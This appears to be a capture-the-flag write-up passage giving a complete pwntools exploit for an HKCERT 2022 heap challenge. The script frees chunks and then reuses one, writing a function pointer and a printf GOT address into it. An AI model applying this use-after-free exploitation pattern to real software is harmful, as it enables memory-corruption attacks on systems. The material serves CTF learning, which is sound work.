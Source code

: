 ### Full exploit
```python
from pwn import *

TARGET = './chall'
HOST = 'chal.hkcert22.pwnable.hk'
PORT = 28236
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = process(TARGET)
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    gdbscript = ''''''
    if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
       gdb.attach(p, gdbscript=gdbscript)

#--- helper functions
s       = lambda data               :p.send(data)        
sa      = lambda delim,data         :p.sendafter(delim, data) 
sl      = lambda data               :p.sendline(data) 
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\x00'))
uu64    = lambda data   :u64(data.ljust(8, b'\x00'))
leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
#---

def add(index, name):
    sla(">", "1")
    sla(">", str(index))
    sla("Name of animal?", name)
    
def remove(index):
    sla(">", '2')
    sla("Zone number? (0-9)", str(index))
    
def report(index):
    sla(">", '3')
    sla("Zone number? (0-9)", str(index))

add(1, "A"*0x18) # 0
add(1, "B"*0x18) # 1
add(1, "C"*0x18) # 2
add(1, "D"*0x18) # 3
remove(0)
remove(1)
remove(2)
remove(3)

speak = elf.symbols['speak']
got_printf = elf.got['printf']

payload = p64(speak) + p64(0) + p64(got_printf)

add(1, payload) # 4
```